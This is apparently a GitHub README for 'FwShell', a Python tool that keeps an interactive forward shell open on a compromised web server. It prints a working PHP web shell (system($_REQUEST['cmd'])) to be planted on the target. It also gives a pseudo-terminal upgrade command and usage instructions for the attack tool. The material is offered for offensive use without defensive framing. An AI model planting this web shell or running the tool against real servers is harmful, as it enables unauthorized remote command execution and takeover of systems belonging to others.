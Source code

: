 # FwShell - A Simple Forward Shell

<div align = center>
<img src="./srcRun.png" height="250px">

&ensp;[<kbd> <br> Description <br> </kbd>](#-description)&ensp;
&ensp;[<kbd> <br> Features <br> </kbd>](#-features)&ensp;
&ensp;[<kbd> <br> Usage <br> </kbd>](#-usage)&ensp;
&ensp;[<kbd> <br> Contribution <br> </kbd>](#-contributions)&ensp;
<br></div>

## 👾 Description

This script establishes a remote shell session that allows the execution of commands on the server interactively, handling output and state dynamically. Since some servers don't allow to get $reserse~shell$ due to their configuration, this script is a friendly alternative.

The remote server must be configured to allow command execution or simply get a *PHP* structure loaded on the compromised server.

```php
<?php
    system($_REQUEST['cmd']); # use too, $_GET
?>
```

Take into account the path to the compromised server, where the bug or our *PHP* script is located.

## 🎉 Features:
- **Remotely execute commands:** Sends shell commands to the remote server and receives the results in real time.

- **Interactive shell:** Allows you to interact with the remote system similar to a local terminal.

- **Pseudo-terminal management:** You can use a pseudo-terminal (script /dev/null -c /bin/bash) to keep the session interactive.

- **Command history management:** The script keeps a history of the commands executed during the session.

- **Configurable execution intervals:** The interval between command executions can be adjusted.

- **Session termination:** At the end of the session, the scriptdeletes temporary files.

## 💻 Usage

First download the code

```bash
git clone --no-checkout http://github.com/ch4rum/FwShell.git
```
To run the script, you can use the following command:

```bash
python3 main.py -u <URL> -i <interval>
```

* `-u` o `--url` \<URL> is the Url of the remote server.

* `-i` o `--interval` \<interval> is an optional parameter that sets the interval (in seconds) between command execution. If not specified, the default value is $0.5$ seconds.

To exit the session, you can run `ctrl + c`.

### 🛠️ Requeriments

- Python 3
- Libraries:
  - `requests`
  - `argparse`
  - `readline`
  - `os`
  - `time`
  - `signal`
  - `sys`
  - `os`
  - `threading`
  - `base64`
  - `random`

You can install the neccesary dependencies by running.

```bash
# In windows & some linux
pip install requests 

# In Arch and some derivate
sudo pacman -S --noconfirm python-requests
```

## 📧 Contributions

If you want to contribute to this little script, feel free to make a fork and send your improvements via pull requests.
